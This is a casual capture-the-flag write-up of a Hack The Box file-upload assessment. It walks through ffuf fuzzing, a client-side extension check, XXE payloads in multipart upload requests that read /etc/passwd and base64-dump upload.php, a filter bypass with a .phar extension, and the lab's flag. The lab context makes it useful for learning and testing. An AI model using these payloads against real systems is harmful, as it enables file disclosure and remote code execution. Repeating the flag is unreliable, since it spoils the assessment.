Well well well ! nice to see you here my friend !

This is file upload attack….. 

Quickly review this skill assessment. I have to say that the lab is truly worth my time, and I do really enjoy it, even though sometimes it is really struggling for me. Got lost and wrong payloads happen all the time, but who cares. What im wrong now help me do it right in the future or in the exam !!! Thank you for reading this shit post. Lets go tooooo the labbbbbbbb

My target ip : `94.237.121.111:55207` and can be change during the test :v and replace it with your ip :))

## Part 1 : Playing around

haha just some quick practice 😄

```php
─$ ffuf -w common.txt -u http://94.237.121.111:55207/FUZZ -ac -e .php,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.121.111:55207/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/common.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

contact                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 185ms]
index.php               [Status: 200, Size: 9104, Words: 3045, Lines: 247, Duration: 191ms]
```

Alright so here is where i am going to attack with the file upload vulnerability


## Part 2 : Bypass blacklist and whitelist

 Turn intercept on and upload a picture and look what happens ?



So first we have `upload.php` : ( It is for uploading our picture or the red.png)



Now i send the request to the repeater
And then is `submit.php`



Upload our information and filename…. Then i forward



### Blacklist at : /contact/script.js

```jsx
function checkFile(File) {
  var file = File.files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#upload_message').text("Only images are allowed");
    File.form.reset();
  } else {
    $("#inputGroupFile01").text(filename);
  }
}

$(document).ready(function () {
  $("#upload").click(function (event) {
    event.preventDefault();
    var fd = new FormData();
    var files = $('#uploadFile')[0].files[0];
    fd.append('uploadFile', files);

    if (!files) {
      $('#upload_message').text("Please select a file");
    } else {
      $.ajax({
        url: '/contact/upload.php',
        type: 'post',
        data: fd,
        contentType: false,
        processData: false,
        success: function (response) {
          if (response.trim() != '') {
            $("#upload_message").html(response);
          } else {
            window.location.reload();
          }
        },
      });
    }
  });
});
```

In the client-side, It only allow us from upload file with the final extension are  `jpg` `jpeg` `png`

But that is easy we Just need to put those ext at the end 😄

### Bypass whitelist

Now im fuzzing with another ext payload Which name of this type **`Reverse Double Extension`**

The payload i use here is web-extension from [seclists](https://github.com/danielmiessler/SecLists)



See let see here 



In the result above, almost php file ext is denied but we can still using `phar` [PHP: Phar - Manual](https://www.php.net/manual/en/book.phar.php)

Well… So we need to find where is the picture locate

## Part 3 : where is the picture locate?

### Using xxe to retrieve the content of upload.php

Damn i stuck an hour for this just because i thought that the signature must match but it is not….

You can simply use repeater with the upload request and no need to intercept or anything else 😀

Alright so here is my payload to use XXE :

```jsx
------WebKitFormBoundaryli57eCViicWji2Sr
Content-Disposition: form-data; name="uploadFile"; filename="red.svg.png"
Content-Type: image/png

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
------WebKitFormBoundaryli57eCViicWji2Sr--

```



Another door is open…. now im going to read `upload.php` 

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```



### `upload.php`

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

As we can see the directory to our picture is `./user_feedback_submissions/` . Lets check



Response code 301 is one sign that it is a directory  

### What is name of our file in the server ?

There are code that rename our original file :V

```php
// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
```

- date(’ymd’) : i guess it take the year - month - day
- basename($_FILES["uploadFile"]["name"]) : this our file name

More information about these two can find in [`PHP: basename - Manual`](https://www.php.net/manual/en/function.basename.php) and [`PHP: date - Manual`](https://www.php.net/manual/en/function.date.php)

For example : today is `4th December, 2025` and file name is `Image`

if i upload a file name image.png, the result will be 25124_Image.png

And another little bit stuck here becuz my VM date is diff from my window :V

```php
└─$ php -a                 
Interactive shell

php > echo date("ymd");
251203
```

Nice i found her…..



Things get nice now 🙉

## Part 4 : shellcode upload



well i dont know why i cant copy all of that part for you guy. Enjoy the pic Instead XD



Boom win 99.9999%

### Find flag at /




### flag :

`HTB{m4573r1ng_upl04d_3xpl0174710n}`